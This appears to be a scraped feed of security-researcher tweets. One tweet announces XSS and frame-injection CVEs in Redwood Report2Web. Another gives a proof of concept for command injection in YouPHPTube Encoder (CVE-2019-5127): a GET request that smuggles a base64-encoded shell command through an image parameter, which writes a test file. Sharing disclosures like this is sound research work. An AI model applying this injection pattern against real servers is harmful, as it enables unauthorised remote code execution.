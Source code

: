 
# vict0ni
**https://twitter.com/vict0ni/status/1357621927112769538 _at 2021-02-05, 09:27:45_**
<blockquote>
Got CVE-2021-26710 and CVE-2021-26711. I'm so excited!

A XSS in Redwood Report2Web v4.3.4.5 and v4.5.3 and frame injection in v4.3.4.5

https://t.co/pLFVCkeBQE
https://t.co/0tKu2xVURJ
</blockquote>

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26711
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26710

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1357546718821142528 _at 2021-02-05, 04:28:54_**
<blockquote>
YouPHPTube Encoder(CVE-2019-5127)

POC:
[1] GET /objects/getImage.php?base64Url=YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=&amp;format=png

[2] GET /objects/tess.txt

Base64 Encode:
YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=

`echo TEST RCE &gt; tess.txt` https://t.co/405TCHrIVe
</blockquote>

<table><tr>
<td><img src="pictures/de2820941bd32617f064e15de7dca3b502233b1cf6beec48c61fa06e655c1628.jpg" alt="de2820941bd32617f064e15de7dca3b502233b1cf6beec48c61fa06e655c1628.jpg"></td>